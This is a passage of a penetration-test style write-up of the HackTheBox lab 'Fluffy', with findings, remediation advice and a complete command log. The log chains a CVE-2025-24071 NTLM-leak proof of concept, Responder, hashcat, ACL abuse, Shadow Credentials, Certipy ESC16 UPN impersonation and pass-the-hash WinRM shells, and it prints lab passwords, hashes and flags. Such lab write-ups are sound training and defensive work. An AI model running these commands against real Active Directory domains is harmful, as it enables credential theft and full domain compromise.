### 3.4. ESC16 Exploitation — UPN Manipulation

Because `ca_svc` can have its own attributes written, its UPN was changed to impersonate the Administrator account:

```
certipy account update -u ca_svc@fluffy.htb -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -user ca_svc -upn administrator@fluffy.htb -dc-ip 10.129.97.227
```

[](./images/adminupn.png)

With the UPN set to `administrator@fluffy.htb`, a certificate was requested from the `User` template. Because the CA omits the SID security extension (ESC16), the certificate is bound to the Administrator by UPN alone:

```
certipy req -u ca_svc@fluffy.htb -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -ca fluffy-DC01-CA -template User -dc-ip 10.129.97.227 -target DC01.fluffy.htb
```

The UPN of `ca_svc` was then restored to its original value to minimise disruption and avoid breaking the account:

```
certipy account update -u ca_svc@fluffy.htb -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -user ca_svc -upn ca_svc@fluffy.htb -dc-ip 10.129.97.227
```

---

### 3.5. Authentication as Administrator

The issued certificate was used to authenticate as the Domain Administrator and recover the account's NT hash:

```
certipy auth -pfx administrator.pfx -domain fluffy.htb -dc-ip 10.129.97.227
```

[](./images/adminhash.png)

**Result:** Certipy obtained a Kerberos TGT for the `administrator` account and recovered its NT hash:

**Administrator NT hash:** `aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e`

---

### 3.6. Administrator Access and Root Flag

The recovered NT hash was used to authenticate to WinRM via pass-the-hash, opening a session with full administrative privileges:

```
evil-winrm -i DC01.fluffy.htb -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e
whoami
type C:\users\administrator\desktop\root.txt
```

[](./images/rootflag.png)

**Result:** Full administrative access to the Domain Controller was achieved, completing the domain compromise.

**root.txt:** `2575b9a464b250c5d76c53736136cdbd`

---

## Technical Findings Details

### 1. Misconfigured Certificate Authority (ESC16) Enabling Domain Administrator Impersonation — Critical

| Field                              | Details                                                                                                                                                                                                  |
| ---------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-295: Improper Certificate Validation / CWE-269: Improper Privilege Management                                                                                                                        |
| **CVSS 3.1 Score**                 | 9.8 (Critical) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`                                                                                                                                          |
| **Description (Incl. Root Cause)** | The Active Directory Certificate Services CA `fluffy-DC01-CA` has the SID security extension (`szOID_NTDS_CA_SECURITY_EXT`) globally disabled — the ESC16 misconfiguration. Without this extension, issued certificates are mapped to accounts by their User Principal Name (UPN) rather than by an immutable SID. An attacker who controls an account with writable attributes (here, `ca_svc`, obtained via the ACL and Shadow Credentials chain) can temporarily set that account's UPN to `administrator@fluffy.htb`, enrol for a certificate from the standard `User` template, restore the original UPN, and then use the certificate to authenticate as the Domain Administrator. |
| **Security Impact**                | Any attacker who controls a single account whose UPN can be modified is able to impersonate the Domain Administrator and obtain full control of the domain. This finding is the final step in the full domain compromise chain and represents complete loss of confidentiality, integrity, and availability across the entire Active Directory environment. |
| **Affected Host(s)**               | `DC01.fluffy.htb` — Certificate Authority `fluffy-DC01-CA`                                                                                                                                               |
| **Remediation**                    | - Re-enable the SID security extension on the CA by removing the `DisableExtensionList` entry for `szOID_NTDS_CA_SECURITY_EXT` and restarting the CA service, so certificates are strongly mapped to account SIDs — Apply the Microsoft certificate-mapping hardening updates (KB5014754) and move the domain to Full Enforcement mode for strong certificate mapping — Audit all certificate templates and the CA configuration against the ESC1–ESC16 misconfiguration classes — Rotate the Administrator credentials, which have been disclosed |
| **References**                     | [MITRE ATT&CK: T1649 — Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/) · [CWE-269: Improper Privilege Management](https://cwe.mitre.org/data/definitions/269.html) · [SpecterOps — Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2) |

**Evidence:**

```
# CA vulnerability identified:
certipy find -u ca_svc@fluffy.htb -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.97.227 -stdout
# fluffy-DC01-CA -> ESC16: Security Extension is disabled

# UPN swapped to Administrator, certificate requested, UPN restored:
certipy account update -u ca_svc@fluffy.htb -hashes :... -user ca_svc -upn administrator@fluffy.htb -dc-ip 10.129.97.227
certipy req -u ca_svc@fluffy.htb -hashes :... -ca fluffy-DC01-CA -template User -dc-ip 10.129.97.227 -target DC01.fluffy.htb
certipy account update -u ca_svc@fluffy.htb -hashes :... -user ca_svc -upn ca_svc@fluffy.htb -dc-ip 10.129.97.227

# Administrator NT hash recovered:
certipy auth -pfx administrator.pfx -domain fluffy.htb -dc-ip 10.129.97.227
# 8da83a3fa618b6e3a00e93f676c92a6e
```

`Screenshot adminupn.png: Certipy changing the ca_svc UPN to administrator@fluffy.htb` `Screenshot adminhash.png: Certipy retrieving the Administrator NT hash from the issued certificate`

---

### 2. Over-Permissive ACLs Enabling Account Takeover (GenericAll / GenericWrite) — High

| Field                              | Details                                                                                                                                                                                                  |
| ---------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-732: Incorrect Permission Assignment for Critical Resource                                                                                                                                           |
| **CVSS 3.1 Score**                 | 8.8 (High) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`                                                                                                                                              |
| **Description (Incl. Root Cause)** | A chain of excessive delegated permissions exists within the domain. The low-privileged user `p.agila` belongs to `Service Account Managers`, which holds `GenericAll` (full control) over the `Service Accounts` group. Members of `Service Accounts` in turn hold `GenericWrite` over the `winrm_svc` and `ca_svc` user objects. This allowed `p.agila` to add itself to `Service Accounts` and then take over both service accounts. The root cause is the assignment of powerful, broad object-control rights to ordinary groups rather than following the principle of least privilege. |
| **Security Impact**                | A single low-privileged user can escalate to control of multiple service accounts purely through Active Directory permissions, with no software exploit required. This ACL chain is the backbone of the entire attack path, enabling both the initial foothold (`winrm_svc`) and the account used for the final CA compromise (`ca_svc`). |
| **Affected Host(s)**               | `fluffy.htb` — groups `Service Account Managers`, `Service Accounts`; users `winrm_svc`, `ca_svc`                                                                                                        |
| **Remediation**                    | - Review and remove the `GenericAll` right held by `Service Account Managers` over `Service Accounts`, and the `GenericWrite` rights held by `Service Accounts` over the service-account users — Apply the principle of least privilege so that no ordinary user or group holds full control or write access over other accounts or groups — Use BloodHound (or equivalent) proactively to identify and remediate dangerous ACL edges — Restrict and monitor membership of all groups that confer object-control rights |
| **References**                     | [MITRE ATT&CK: T1098 — Account Manipulation](https://attack.mitre.org/techniques/T1098/) · [MITRE ATT&CK: T1069.002 — Permission Groups Discovery: Domain Groups](https://attack.mitre.org/techniques/T1069/002/) · [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html) |

**Evidence:**

```
# p.agila -> Service Account Managers -GenericAll-> Service Accounts -GenericWrite-> winrm_svc / ca_svc
net rpc group addmem "service accounts@fluffy.htb" "p.agila" -U "fluffy.htb"/"p.agila"%"prometheusx-303" -S "fluffy.htb"
# p.agila successfully added to Service Accounts, inheriting GenericWrite over the service accounts
```

`Screenshot serviceaccountperms.png: BloodHound showing the GenericAll edge from Service Account Managers to Service Accounts` `Screenshot casvcmembership.png: BloodHound showing ca_svc group memberships including Cert Publishers` `Screenshot genericallabuse.png: BloodHound GenericAll abuse help documenting the net rpc command`

---

### 3. Missing Security Patch Exploited for NTLM Hash Disclosure (CVE-2025-24071) — High

| Field                              | Details                                                                                                                                                                                                  |
| ---------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-200: Exposure of Sensitive Information to an Unauthorized Actor                                                                                                                                       |
| **CVSS 3.1 Score**                 | 7.5 (High) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:N/A:N`                                                                                                                                              |
| **Description (Incl. Root Cause)** | The environment was missing patches for several known vulnerabilities, as documented in its own `Upgrade_Notice.pdf`. CVE-2025-24071 is a Windows File Explorer flaw in which a specially crafted file (delivered inside an archive) causes the victim's system to initiate an SMB authentication to an attacker-controlled host simply when the folder is browsed, leaking the victim's NetNTLMv2 hash. The malicious archive was placed on the writable `IT` share, where the `p.agila` user processed it. The root cause is a failure to apply available security updates in a timely manner. |
| **Security Impact**                | The vulnerability allowed capture of a second user's NetNTLMv2 hash without any direct interaction with that user's session. Combined with a weak password (Finding #5), this yielded the `p.agila` credentials that unlocked the entire ACL-based escalation chain. |
| **Affected Host(s)**               | `DC01.fluffy.htb` and client systems processing files from the `IT` share (`\\fluffy.htb\IT`)                                                                                                            |
| **Remediation**                    | - Apply the Microsoft security update for CVE-2025-24071 and remediate the other CVEs listed in the organisation's own upgrade notice without further delay — Establish and enforce a patch-management SLA so that critical and high-severity patches are applied promptly — Restrict write access to shared folders so untrusted files cannot be staged for other users — Block outbound SMB (TCP 445) to untrusted hosts at the network perimeter to mitigate NTLM leak primitives |
| **References**                     | [MITRE ATT&CK: T1187 — Forced Authentication](https://attack.mitre.org/techniques/T1187/) · [NVD: CVE-2025-24071](https://nvd.nist.gov/vuln/detail/CVE-2025-24071) · [CWE-200: Exposure of Sensitive Information](https://cwe.mitre.org/data/definitions/200.html) |

**Evidence:**

```
# Malicious archive generated and staged on the IT share:
python3 52310 -i 10.10.15.85 -n malicious -o ./output
sudo responder -I tun0
smbclient //fluffy.htb/IT -U j.fleischman
put malicious.zip
# Responder captured NetNTLMv2 hash for FLUFFY\p.agila
```

`Screenshot pdf.png: Upgrade_Notice.pdf listing the unpatched CVEs including CVE-2025-24071` `Screenshot pagilahash.png: Responder capturing the p.agila NetNTLMv2 hash`

---

### 4. Shadow Credentials Abuse via Writable msDS-KeyCredentialLink — Medium

| Field                              | Details                                                                                                                                                                                                  |
| ---------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-269: Improper Privilege Management                                                                                                                                                                   |
| **CVSS 3.1 Score**                 | 6.5 (Medium) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`                                                                                                                                            |
| **Description (Incl. Root Cause)** | Because write access was available over the `winrm_svc` and `ca_svc` user objects (Finding #2), their `msDS-KeyCredentialLink` attribute could be populated with attacker-controlled key material. This is the "Shadow Credentials" technique: by registering an alternative certificate-based credential on a target account, an attacker can authenticate as that account via PKINIT and recover its NT hash, without ever knowing or changing the account's password. The root cause is writable access to a security-sensitive attribute that underpins Key Trust authentication. |
| **Security Impact**                | Shadow Credentials converted write access over the service accounts into full authentication as those accounts (NT hash recovery), providing both the interactive foothold (`winrm_svc`) and the CA-abuse account (`ca_svc`) stealthily and without triggering a password reset. |
| **Affected Host(s)**               | `fluffy.htb` — `msDS-KeyCredentialLink` attribute on users `winrm_svc` and `ca_svc`                                                                                                                      |
| **Remediation**                    | - Remediate the underlying write permissions (Finding #2) so that non-privileged principals cannot modify `msDS-KeyCredentialLink` on other accounts — Deploy Windows Hello for Business / Key Trust only with tightly controlled write access to the attribute, and monitor changes to `msDS-KeyCredentialLink` domain-wide — Alert on PKINIT authentications that follow recent key-credential modifications — Rotate the `winrm_svc` and `ca_svc` credentials, which have been compromised |
| **References**                     | [MITRE ATT&CK: T1556 — Modify Authentication Process](https://attack.mitre.org/techniques/T1556/) · [SpecterOps — Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) · [CWE-269: Improper Privilege Management](https://cwe.mitre.org/data/definitions/269.html) |

**Evidence:**

```
# Key credential added to the target, then PKINIT used to recover the NT hash:
python3 pywhisker.py -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "winrm_svc" --action "add" --use-ldaps
python3 gettgtpkinit.py -cert-pfx ~/output/XdZN9LFg.pfx -pfx-pass <pass> fluffy.htb/winrm_svc winrm_svc.ccache
KRB5CCNAME=winrm_svc.ccache python3 getnthash.py -key <key> fluffy.htb/winrm_svc
# Recovered NT hash: 33bd09dcd697600edf6b3a7af4875767
```

`Screenshot shadowattack.png: pywhisker writing a key credential to winrm_svc` `Screenshot winrmhash.png: PKINITtools recovering the winrm_svc NT hash` `Screenshot shadowattack2.png: pywhisker writing a key credential to ca_svc` `Screenshot casvchash.png: PKINITtools recovering the ca_svc NT hash`

---

### 5. Weak Domain Account Password — Low

| Field                              | Details                                                                                                                                                                                                  |
| ---------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-521: Weak Password Requirements                                                                                                                                                                      |
| **CVSS 3.1 Score**                 | 4.3 (Medium) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N`                                                                                                                                            |
| **Description (Incl. Root Cause)** | The `p.agila` account was configured with the password `prometheusx-303`, which is present in the publicly available `rockyou.txt` wordlist. Once the account's NetNTLMv2 hash was captured (Finding #3), Hashcat recovered the plaintext in approximately three seconds. Because the hash was cracked offline, no account lockout or rate limiting applied. |
| **Security Impact**                | The weak password provided no meaningful protection. Cracking it converted the captured hash into reusable plaintext credentials, directly enabling BloodHound collection and the subsequent ACL-based escalation chain. |
| **Affected Host(s)**               | `fluffy.htb` — domain account `FLUFFY\p.agila`                                                                                                                                                           |
| **Remediation**                    | - Enforce a strong password policy across the domain and screen new passwords against known-compromised wordlists (e.g., using Azure AD Password Protection or an equivalent) — Require longer passphrases for all user accounts and rotate the `p.agila` password, which has been disclosed — Consider multi-factor authentication for sensitive access paths such as WinRM |
| **References**                     | [MITRE ATT&CK: T1110.002 — Brute Force: Password Cracking](https://attack.mitre.org/techniques/T1110/002/) · [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)      |

**Evidence:**

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
# Status: Cracked (3 secs)
# p.agila : prometheusx-303
```

`Screenshot pagilapasswd.png: Hashcat cracking the p.agila NetNTLMv2 hash to prometheusx-303 in three seconds`

---

## Remediation Summary

### Short Term

- **Finding #1 (ESC16)** — Re-enable the SID security extension on `fluffy-DC01-CA`, restart the CA service, and rotate the Administrator credentials.
- **Finding #2 (Over-Permissive ACLs)** — Remove the `GenericAll`/`GenericWrite` edges from `Service Account Managers` and `Service Accounts`, applying least privilege.
- **Finding #3 (CVE-2025-24071)** — Apply the Microsoft patch for CVE-2025-24071 and the other CVEs listed in the organisation's upgrade notice.
- **Finding #4 (Shadow Credentials)** — Rotate the `winrm_svc` and `ca_svc` credentials and review `msDS-KeyCredentialLink` on all accounts for unexpected entries.
- **Finding #5 (Weak Password)** — Rotate the `p.agila` password to a strong, unique value.

### Medium Term

- **Finding #1 (ESC16)** — Perform a full audit of the CA and all certificate templates against the ESC1–ESC16 classes, and deploy the KB5014754 strong-certificate-mapping hardening in Full Enforcement mode.
- **Finding #2 (Over-Permissive ACLs)** — Run BloodHound regularly as a preventative control to detect and remediate dangerous ACL edges before they can be exploited. Restrict and monitor membership of any group that confers object-control rights.
- **Finding #3 (CVE-2025-24071)** — Establish a formal patch-management SLA with tracked timelines for critical and high-severity updates, and restrict write access to shared folders.
- **Finding #4 (Shadow Credentials)** — Implement monitoring and alerting on `msDS-KeyCredentialLink` modifications and on PKINIT authentications that closely follow such changes.

### Long Term

- Implement an Active Directory tiering model (Tier 0/1/2) so that service accounts and ordinary users can never reach Tier-0 assets such as the Domain Controller and Certificate Authority.
- Establish PKI governance covering CA configuration, template design, periodic review, and least-privilege enrolment rights.
- Deploy a centralised secrets-management and privileged-access-management solution, and migrate service accounts to Group Managed Service Accounts (gMSA) where feasible.
- Establish recurring reviews of SMB share permissions, Active Directory ACLs, group memberships, and certificate configurations to detect misconfiguration drift.

---

## Lessons Learned / Skills Demonstrated

**Skill/Technique 1: SMB Enumeration and Intelligence from Internal Documents.** Identified a non-default `IT` share, retrieved an internal upgrade notice, and recognised that its list of unpatched CVEs was itself an actionable roadmap — turning an information-disclosure oversight into the initial exploitation vector.

**Skill/Technique 2: Exploiting CVE-2025-24071 for NTLM Capture.** Weaponised a public proof-of-concept to craft a malicious archive, staged it on a writable share, and used Responder to capture a second user's NetNTLMv2 hash via forced authentication — demonstrating the real-world impact of delayed patching.

**Skill/Technique 3: BloodHound-Driven ACL Abuse.** Collected and analysed Active Directory data to map a multi-step privilege chain (`GenericAll` → group membership → `GenericWrite`), then abused it with `net rpc` to add a controlled user to a privileged group, demonstrating how dangerous ACL edges compound into account takeover.

**Skill/Technique 4: Shadow Credentials and PKINIT.** Performed Shadow Credentials attacks with `pywhisker` against two service accounts by writing to `msDS-KeyCredentialLink`, then used `PKINITtools` to request TGTs and recover NT hashes via PKINIT — authenticating as the targets without touching their passwords.

**Skill/Technique 5: ADCS ESC16 Exploitation.** Enumerated the certificate authority with Certipy, identified the ESC16 misconfiguration (disabled SID security extension), and exploited it by temporarily swapping a controlled account's UPN to the Administrator, enrolling for a certificate, and authenticating as the Domain Administrator — achieving full domain compromise.

---

## Appendix

### A. Finding Severity Definitions

| Rating       | Definition                                                                                     |
| ------------ | ---------------------------------------------------------------------------------------------- |
| **Critical** | Exploitation leads to full system/domain compromise with little to no effort or prerequisites. |
| **High**     | Exploitation causes substantial harm to confidentiality, integrity, or availability.           |
| **Medium**   | Exploitation has a moderate impact, or a high-impact issue with limited exposure.              |
| **Low**      | Exploitation causes minimal impact to operations.                                              |
| **Info**     | An observation or improvement opportunity; not itself a vulnerability.                         |

### B. Exploited Hosts

| Host                   | Method                                                   | Notes                                                        |
| ---------------------- | ------------------------------------------------------- | ----------------------------------------------------------- |
| `10.129.97.227:445`    | Authenticated SMB access                                 | `Upgrade_Notice.pdf` retrieved; malicious archive staged     |
| `10.129.97.227:445`    | CVE-2025-24071 forced authentication + Responder        | `p.agila` NetNTLMv2 hash captured                            |
| `10.129.97.227:389`    | ACL abuse (`net rpc`) + Shadow Credentials (`pywhisker`) | `winrm_svc` and `ca_svc` NT hashes recovered via PKINIT      |
| `10.129.97.227:5985`   | Pass-the-hash WinRM (`winrm_svc`)                        | Interactive shell as `fluffy\winrm_svc`; user.txt captured   |
| `DC01.fluffy.htb`      | ADCS ESC16 abuse (Certipy) + pass-the-hash WinRM         | Full administrative shell as `Administrator`; root.txt        |

### C. Compromised Users / Credentials

| Username        | Method                                                            | Notes                                                       |
| --------------- | ---------------------------------------------------------------- | ---------------------------------------------------------- |
| `j.fleischman`  | Provided (assumed-breach starting credentials)                    | SMB access; staged the CVE-2025-24071 payload              |
| `p.agila`       | NetNTLMv2 hash via CVE-2025-24071, cracked with Hashcat           | Held the ACL chain; drove all escalation                   |
| `winrm_svc`     | ACL abuse → Shadow Credentials → PKINIT NT hash recovery          | Initial WinRM foothold; user.txt captured                 |
| `ca_svc`        | ACL abuse → Shadow Credentials → PKINIT NT hash recovery          | Member of `Cert Publishers`; used for ESC16 CA abuse        |
| `Administrator` | ADCS ESC16 UPN impersonation → NT hash via Certipy                | Full domain compromise; root.txt captured                 |

### D. Command Reference Log

```
# ──────────────────────────────────────────────
# PHASE 1: RECONNAISSANCE & ENUMERATION
# ──────────────────────────────────────────────
sudo nmap -p- 10.129.97.227 -sC -sV -Pn
echo "10.129.97.227 fluffy.htb DC01.fluffy.htb" | sudo tee -a /etc/hosts

smbclient -N -L //fluffy.htb
smbclient -U j.fleischman //fluffy.htb/IT
get Upgrade_Notice.pdf
exit

# ──────────────────────────────────────────────
# PHASE 2: CVE-2025-24071 NTLM CAPTURE & CRACK
# ──────────────────────────────────────────────
wget https://www.exploit-db.com/download/52310
python3 52310 -i 10.10.15.85 -n malicious -o ./output
sudo responder -I tun0
cd output
smbclient //fluffy.htb/IT -U j.fleischman
put malicious.zip
# Captured NetNTLMv2 hash for FLUFFY\p.agila

echo 'p.agila::FLUFFY:6a080dd0d55bf774:0983C2CB36EC9FE6B12D26D1344D0C7B:0101...' > hash.txt
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
# Password: prometheusx-303

# ──────────────────────────────────────────────
# PHASE 3: BLOODHOUND & ACL ABUSE
# ──────────────────────────────────────────────
bloodhound-python -u p.agila -p 'prometheusx-303' -d fluffy.htb -ns 10.129.97.227 -c all --zip
sudo neo4j console
bloodhound
# p.agila -> Service Account Managers -GenericAll-> Service Accounts -GenericWrite-> winrm_svc / ca_svc

net rpc group addmem "service accounts@fluffy.htb" "p.agila" -U "fluffy.htb"/"p.agila"%"prometheusx-303" -S "fluffy.htb"

# ──────────────────────────────────────────────
# PHASE 4: SHADOW CREDENTIALS -> winrm_svc FOOTHOLD
# ──────────────────────────────────────────────
python3 pywhisker.py -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "winrm_svc" --action "add" --use-ldaps
python3 gettgtpkinit.py -cert-pfx ~/output/XdZN9LFg.pfx -pfx-pass hGSAP7dsXxyvsC2S4JRq fluffy.htb/winrm_svc winrm_svc.ccache
KRB5CCNAME=winrm_svc.ccache python3 getnthash.py -key d1ecda28d8a6f5c551b240de8aad455292c162f9bbcd53a03bea062e2d76823a fluffy.htb/winrm_svc
# winrm_svc NT hash: 33bd09dcd697600edf6b3a7af4875767

evil-winrm -i fluffy.htb -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767
type C:\Users\winrm_svc\Desktop\user.txt
# ecb9397cd5237f0915a5c7ddccadaaad

# ──────────────────────────────────────────────
# PHASE 5: SHADOW CREDENTIALS -> ca_svc
# ──────────────────────────────────────────────
python3 ~/output/pywhisker.py -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "ca_svc" --action "add" --use-ldaps
python3 gettgtpkinit.py -cert-pfx oHtoHIQI.pfx -pfx-pass TGsUsCdoG4G0n46o8GWn fluffy.htb/ca_svc ca_svc.ccache
KRB5CCNAME=ca_svc.ccache python3 getnthash.py -key a5f5fb81169e39bf0734c016ca7932028c7cf5d350fe5d6f6be42d432698b281 fluffy.htb/ca_svc
# ca_svc NT hash: ca0f4f9e9eb8a092addf53bb03fc98c8

# ──────────────────────────────────────────────
# PHASE 6: ADCS ESC16 ABUSE & FULL COMPROMISE
# ──────────────────────────────────────────────
python3 -m venv certipy-venv
source certipy-venv/bin/activate
pip install certipy-ad

certipy find -u ca_svc@fluffy.htb -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.97.227 -stdout
# fluffy-DC01-CA -> ESC16

certipy account update -u ca_svc@fluffy.htb -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -user ca_svc -upn administrator@fluffy.htb -dc-ip 10.129.97.227
certipy req -u ca_svc@fluffy.htb -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -ca fluffy-DC01-CA -template User -dc-ip 10.129.97.227 -target DC01.fluffy.htb
certipy account update -u ca_svc@fluffy.htb -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -user ca_svc -upn ca_svc@fluffy.htb -dc-ip 10.129.97.227
certipy auth -pfx administrator.pfx -domain fluffy.htb -dc-ip 10.129.97.227
# Administrator NT hash: 8da83a3fa618b6e3a00e93f676c92a6e

evil-winrm -i DC01.fluffy.htb -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e
type C:\users\administrator\desktop\root.txt
# 2575b9a464b250c5d76c53736136cdbd
```

### E. References

- [MITRE ATT&CK: T1187 — Forced Authentication](https://attack.mitre.org/techniques/T1187/)
- [MITRE ATT&CK: T1110.002 — Brute Force: Password Cracking](https://attack.mitre.org/techniques/T1110/002/)
- [MITRE ATT&CK: T1098 — Account Manipulation](https://attack.mitre.org/techniques/T1098/)
- [MITRE ATT&CK: T1069.002 — Permission Groups Discovery: Domain Groups](https://attack.mitre.org/techniques/T1069/002/)
- [MITRE ATT&CK: T1556 — Modify Authentication Process](https://attack.mitre.org/techniques/T1556/)
- [MITRE ATT&CK: T1649 — Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)
- [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)
- [CWE-269: Improper Privilege Management](https://cwe.mitre.org/data/definitions/269.html)
- [CWE-295: Improper Certificate Validation](https://cwe.mitre.org/data/definitions/295.html)
- [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)
- [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html)
- [NVD: CVE-2025-24071](https://nvd.nist.gov/vuln/detail/CVE-2025-24071)
- [SpecterOps — Certified Pre-Owned (ADCS attacks)](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- [SpecterOps — Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
- [Certipy — ly4k/Certipy](https://github.com/ly4k/Certipy)
- [pywhisker — ShutdownRepo/pywhisker](https://github.com/ShutdownRepo/pywhisker)
- [PKINITtools — dirkjanm/PKINITtools](https://github.com/dirkjanm/PKINITtools)
- [Official HackTheBox Fluffy Machine Page](https://app.hackthebox.com/machines/Fluffy)

> **Note on CVEs:** One CVE applies to this assessment — CVE-2025-24071 (Windows File Explorer NTLM hash disclosure), exploited for the hash-capture step. All other findings are misconfigurations (ADCS ESC16, over-permissive ACLs, Shadow Credentials) and weak credential practices rather than vulnerabilities in versioned third-party software, and are therefore remediated through configuration and process changes.
